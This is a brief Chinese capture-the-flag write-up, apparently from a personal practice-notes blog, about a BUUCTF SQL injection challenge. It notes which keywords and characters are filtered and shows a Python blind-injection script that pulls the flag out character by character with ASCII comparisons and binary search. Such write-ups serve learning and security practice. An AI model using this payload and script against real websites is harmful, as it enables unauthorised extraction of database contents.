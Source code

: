 1.测试过滤字符

1.1 and,or,union被过滤此时只能考虑盲注

1.2 空格，/**/，被过滤可以考虑（）括号绕过



2. 测试当ascii码值大于101时，返回数据不一样



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/223892ED5E714AEFBED03C1C926D5879clipboard.png)



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/BE23848B5D6C420992DDF821DC538FFEclipboard.png)

此时可以写出盲注脚本：

```javascript
import requests

url = 'http://fc1b4a8a-ce34-4958-80f7-16870eab28bb.node3.buuoj.cn/index.php'
result = ''

for x in range(1, 50):
    high = 127
    low = 32
    mid = (low + high) // 2
    while high > low:
        payload = "if(ascii(substr((select(flag)from(flag)),%d,1))>%d,1,2)" % (x, mid)
        data = {
            "id":payload
        }
        response = requests.post(url, data = data)
        if 'Hello' in response.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2

    result += chr(int(mid))
    print(result)
```





